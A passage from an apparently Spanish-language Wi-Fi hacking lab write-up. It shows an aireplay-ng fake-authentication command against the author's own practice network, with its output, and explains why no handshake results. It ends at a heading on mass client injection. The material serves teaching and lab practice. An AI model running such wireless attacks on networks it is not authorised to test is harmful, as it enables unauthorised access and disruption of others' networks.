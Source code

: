 Para autenticar a un cliente debemos proporcionar su dirección **MAC** yo por ejemplo voy a autenticar una laptop que tengo alado para practicar en este laboratorio y me se su dirección **MAC** , no le vamos a indicar paquetes si no que de manera ilimitada asta que se asocie termine

```bash
❯ aireplay-ng -1 0 -e MiguelWifi -h 00:26:6c:1f:03:d8 wlan0mon
The interface MAC (9C:EF:D5:F9:1E:C0) doesn't match the specified MAC (-h).
	ifconfig wlan0mon hw ether 00:26:6C:1F:03:D8
18:37:14  Waiting for beacon frame (ESSID: MiguelWifi) on channel 10
Found BSSID "C6:BF:FD:55:E2:F7" to given ESSID "MiguelWifi".

18:37:14  Sending Authentication Request (Open System)

18:37:16  Sending Authentication Request (Open System) [ACK]
18:37:16  Authentication successful
18:37:16  Sending Association Request [ACK]
18:37:16  Association successful :-) (AID: 1)
```

Ahora vemos que como tal el cliente esta autenticado

![](/assets/images/hacking-writeup-wifi/web12.png)

>Si expulsamos al cliente y tratamos de hacer una reconexión manual no va a generar ningun **handshake** por que todo esto es falso en la autenticación el cliente no dispone de la contraseña de la red es por eso que no va a viajar la contraseña por que es una falsa autenticación.

# Inyectar clientes de manera agresiva (Autenticación masiva)
